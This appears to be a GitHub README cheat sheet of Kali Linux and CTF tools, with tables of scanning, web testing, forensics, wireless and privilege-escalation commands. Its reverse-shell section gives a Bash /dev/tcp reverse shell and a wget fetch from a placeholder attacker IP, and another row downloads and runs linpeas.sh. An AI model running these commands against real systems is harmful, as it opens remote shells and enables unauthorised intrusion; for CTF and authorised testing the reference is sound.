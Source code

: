 # CTF Tools and Commands
<img src="/src/hi.webp">

---

## 🔥 Kali Linux Tools and Commands

This repository contains a collection of useful tools and commands for Kali Linux, categorized based on their usage in penetration testing, cybersecurity, and ethical hacking.

---

## 📌 Table of Contents

1. [🐧 Basic Linux Commands](#-basic-linux-commands)
2. [🌍 Network Scanning & Enumeration](#-network-scanning--enumeration)
3. [🔓 Web Exploitation Tools](#-web-exploitation-tools)
4. [🕵️‍♂️ Forensics & Steganography](#-forensics--steganography)
5. [📡 Wireless Attacks](#-wireless-attacks)
6. [🎭 Privilege Escalation](#-privilege-escalation)
7. [📂 File Transfer & Reverse Shells](#-file-transfer--reverse-shells)
8. [🎯 Tool Downloads](#-tool-downloads)

---

## 🐧 Basic Linux Commands

These are fundamental Linux commands every Kali Linux user should know.

| Command | Description |
| ------- | -------------------------------- |
| `cd` | Change directory |
| `ls` | List files and directories |
| `pwd` | Print current working directory |
| `cp` | Copy files or directories |
| `mv` | Move or rename files and directories |
| `rm` | Remove files or directories |
| `cat` | View file content |
| `echo` | Print text to terminal or file |
| `chmod` | Change file permissions |
| `chown` | Change file ownership |
| `find` | Search for files and directories |
| `grep` | Search for patterns inside files |

---

## 🌍 Network Scanning & Enumeration

| Tool | Description | Command |
| --------------- | ------------------------------------------ | ------------------------- |
| **Nmap** | Network scanning & vulnerability detection | `nmap [options] [target]` |
| **Netcat** | Network debugging and port scanning | `nc -l -p [port]` |
| **Wireshark** | GUI-based network protocol analyzer | `wireshark` |
| **Tcpdump** | CLI-based network packet capture tool | `tcpdump -i eth0` |
| **Masscan** | Fast port scanner | `masscan -p1-65535 [target]` |

---

## 🔓 Web Exploitation Tools

| Tool | Description | Command |
| -------------- | -------------------------------- | ------------------------ |
| **Burp Suite** | Web security testing framework | `burpsuite` |
| **Nikto** | Web server vulnerability scanner | `nikto -h [target]` |
| **SQLmap** | Automated SQL injection tool | `sqlmap -u [target_url]` |
| **Gobuster** | Directory and file brute-forcing | `gobuster dir -u [URL]` |
| **WFUZZ** | Web application brute-forcing | `wfuzz -c -z file,wordlist.txt --hc 404 [URL]/FUZZ` |

---

## 🕵️‍♂️ Forensics & Steganography

| Tool | Description | Command |
| ------------ | -------------------------------------- | -------------------- |
| **Exiftool** | Extract metadata from images and files | `exiftool [file]` |
| **Binwalk** | Analyze and extract firmware images | `binwalk -e [file]` |
| **Foremost** | File recovery based on headers | `foremost -i [file]` |
| **Steghide** | Hide/extract data in images | `steghide embed -cf image.jpg -ef secret.txt` |
| **Aperisolve** | Online steganography analysis | [🔗 Visit](https://www.aperisolve.com/) |

---

## 📡 Wireless Attacks

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **Aircrack-ng** | Wireless security auditing | `airmon-ng start wlan0` |
| **Kismet** | Wireless network discovery | `kismet` |
| **Reaver** | WPS attack tool | `reaver -i wlan0 -b [BSSID] -vv` |
| **Fern Wifi Cracker** | GUI for wireless auditing | `fern-wifi-cracker` |

---

## 🎭 Privilege Escalation

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **LinPEAS** | Linux privilege escalation checker | `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh` |
| **Windows-Exploit-Suggester** | Windows privilege escalation tool | `python windows-exploit-suggester.py --update` |
| **GTFOBins** | Find binaries useful for privilege escalation | [🔗 Visit](https://gtfobins.github.io/) |

---

## 📂 File Transfer & Reverse Shells

| Command | Description |
| --------------- | ------------------------------------------ |
| `scp file user@host:/path/to/destination` | Securely copy files via SSH |
| `wget http://[attacker_ip]/file -O /tmp/file` | Download a file using wget |
| `nc -lvnp 4444` | Start a netcat listener |
| `bash -i >& /dev/tcp/[attacker_ip]/4444 0>&1` | Reverse shell via Bash |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell to an interactive TTY |

---

## 🎯 Tool Downloads

- **Nmap**: [Download](https://nmap.org/download.html)
- **Wireshark**: [Download](https://www.wireshark.org/download.html)
- **SQLmap**: [Download](https://github.com/sqlmapproject/sqlmap)
- **Steghide**: [Download](http://steghide.sourceforge.net/download.php)
- **Burp Suite**: [Download](https://portswigger.net/burp/communitydownload)

---

## 🤝 Contributing

If you want to contribute, feel free to open an issue or submit a pull request.

💌 Contact: 
[Email](khairulislamtushar33@gmail.com)
[GitHub](https://github.com/Ki6uiPar1na)

---

🚀 **Happy Hacking! Stay Ethical.** 🛡️

